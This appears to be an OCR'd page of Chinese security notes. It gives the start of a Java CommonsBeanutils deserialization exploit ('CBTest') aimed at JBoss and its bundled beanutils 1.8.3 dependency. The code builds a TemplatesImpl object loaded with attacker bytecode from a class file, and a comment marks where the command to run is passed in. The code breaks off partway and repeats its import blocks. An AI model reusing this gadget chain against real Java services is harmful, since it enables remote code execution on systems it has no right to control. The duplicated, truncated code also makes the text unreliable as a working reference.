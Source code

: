 然后jboss自带CB1.8.3依赖

只需要把序列化头改为 0xaced0x730005770102即可

```java

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import org.apache.commons.beanutils.BeanComparator;

import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;



import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

/**
 * @ClassName CBTest
 * @Author aY
 * @Date 2023/3/12 21:40
 * @Description
 */
public class CBTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates=(TemplatesImpl)getTemplatesImpl();

//        TemplatesImpl templates = new TemplatesImpl();
//        Class tc = templates.getClass();
//
//        Field namefield = tc.getDeclaredField("_name");
//        namefield.setAccessible(true);
//        namefield.set(templates,"aaaa");
//        Field bytecodesield = tc.getDeclaredField("_bytecodes");
//        bytecodesield.setAccessible(true);
//
//        Field tfactoryfield = tc.getDeclaredField("_tfactory");
//        tfactoryfield.setAccessible(true);
//        tfactoryfield.set(templates, new TransformerFactoryImpl());
//
//        byte[] code= Files.readAllBytes(Paths.get("D://tmp/Test1.class"));
//        byte[][] codes={code};
//        //private byte[][] _bytecodes = null;
//        bytecodesield.set(templates,codes);//到了代码执行的地方了，需要将执行的命令传进去



//        PropertyUtils.getProperty(templates,"outputProperties");
```